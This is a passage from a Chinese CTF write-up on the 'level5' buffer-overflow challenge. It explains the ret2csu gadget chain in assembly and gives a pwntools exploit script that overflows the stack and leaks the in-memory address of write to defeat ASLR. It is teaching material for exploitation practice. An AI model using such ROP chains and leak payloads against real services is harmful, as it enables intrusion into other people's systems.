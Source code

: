 之后程序转向mov_addr函数，利用mov指令布置寄存器rdx，rsi，edi

```c
.text:0000000000400600                 mov     rdx, r13  //rdx==r13==8
.text:0000000000400603                 mov     rsi, r14  //rsi==r14==write_got函数地址
.text:0000000000400606                 mov     edi, r15d //edi==r15d==1
.text:0000000000400609                 call    qword ptr [r12+rbx*8] //call write_got函数地址 
.text:000000000040060D                 add     rbx, 1
.text:0000000000400611                 cmp     rbx, rbp //rbx==1,rbp==1
.text:0000000000400614                 jnz     short loc_400600
```

> JNZ(或JNE)(jump if not zero, or not equal)，汇编语言中的条件转移指令。结果不为零(或不相等)则转移。
>

这里rbx和rbp都等于1，他们相等，所以继续执行payload代码（main_addr）,而不是去执行loc_400600

> 从整体上来看，我们输入了  'A'*136，利用payload0对寄存器布局之后又重新回到了main函数
>
> 再说说'a'*(0x8+8*6)的作用：它的作用就是为了平衡堆栈
>
> 也就是说，当mov_addr执行完之后，按照流程仍然会执行地址400616处的函数，我们并不希望它执行到这个函数（因为他会再次pop寄存器更换我们布置好的内容），所以为了堆栈平衡，我们使用垃圾数据填充此处的代码（栈区和代码区同属于内存区域，可以被填充），如下图所示：
>
> ![](https://cdn.nlark.com/yuque/0/2020/png/574026/1597125587373-dea568b1-820b-4230-bbde-056fb8a05ded.png)
>
> 用垃圾数据填充地址0x16-0x22的内容，最后将main_addr覆盖ret，从而执行main_addr处的内容
>

第一部分的exp如下：

```python
from pwn import *

p = process('./level5')
elf = ELF('level5')

pop_addr = 0x40061a          
write_got = elf.got['write']
mov_addr = 0x400600
main_addr = elf.symbols['main']

p.recvuntil('Hello, World\n')
payload0 = 'A'*136 + p64(pop_addr) + p64(0) + p64(1) + p64(write_got) + p64(8) + p64(write_got) + p64(1) + p64(mov_addr) + 'a'*(0x8+8*6) + p64(main_addr)
p.sendline(payload0)

write_start = u64(p.recv(8))
print "write_addr_in_memory_is "+hex(write_start)
```

> 这道题目我们使用系统中自带的libc.so.6文件
>
> 请注意：当程序加载的时候会寻找同目录下的libc.so.6文件，如果存在，则会自动加载，而不会去加载系统自带的libc文件
>
